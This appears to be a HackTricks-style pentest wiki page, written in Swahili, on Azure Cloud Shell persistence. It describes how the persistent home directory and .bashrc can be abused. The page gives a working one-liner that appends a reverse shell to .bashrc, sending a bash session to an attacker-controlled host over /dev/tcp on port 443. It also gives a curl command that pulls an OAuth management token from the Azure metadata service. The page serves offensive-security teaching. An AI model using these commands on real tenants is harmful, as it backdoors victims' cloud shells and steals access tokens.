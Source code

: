 # Az - Cloud Shell Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Cloud Shell Persistence

Azure Cloud Shell inatoa ufikiaji wa amri ili kudhibiti rasilimali za Azure kwa kuhifadhi kudumu na uthibitishaji wa kiotomatiki. Washambuliaji wanaweza kutumia hili kwa kuweka milango ya nyuma katika saraka ya nyumbani ya kudumu:

* **Persistent Storage**: Saraka ya nyumbani ya Azure Cloud Shell imewekwa kwenye sehemu ya faili ya Azure na inabaki salama hata baada ya kikao kumalizika.
* **Startup Scripts**: Faili kama .bashrc zinafanya kazi kiotomatiki mwanzoni mwa kila kikao, kuruhusu utekelezaji wa kudumu wakati shell ya wingu inaanza.

Mfano wa milango ya nyuma katika .bashrc:
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/$CCSERVER/443 0>&1 &)' >> $HOME/.bashrc
```
Hii backdoor inaweza kutekeleza amri hata dakika 5 baada ya shell ya wingu kumalizika na mtumiaji.

Zaidi ya hayo, uliza huduma ya metadata ya Azure kwa maelezo ya mfano na tokeni:
```bash
curl -H "Metadata:true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" -s
```
{{#include ../../../banners/hacktricks-training.md}}

